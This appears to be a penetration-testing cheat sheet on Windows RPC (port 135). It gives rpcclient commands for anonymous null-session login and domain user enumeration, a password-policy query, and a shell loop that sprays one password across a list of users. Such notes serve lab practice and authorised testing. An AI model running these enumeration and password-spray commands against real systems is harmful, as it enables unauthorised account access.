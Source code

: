 **RPC (Port 135, dynamically assigned high ports)**

- Used for interprocess communication between applications and services.
- RPC Endpoint Mapper listens on **port 135**, and then assigns dynamic ports for communication.
- Often used in Windows for services like **Active Directory, WMI, and DCOM**.

Anonymous Login:

```bash
rpcclient -U'%' 10.10.110.17
enumdomusers
```

Obtain password policy:

```bash
querydominfo
```

Password Spray with a single password:

```bash
for u in $(cat users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```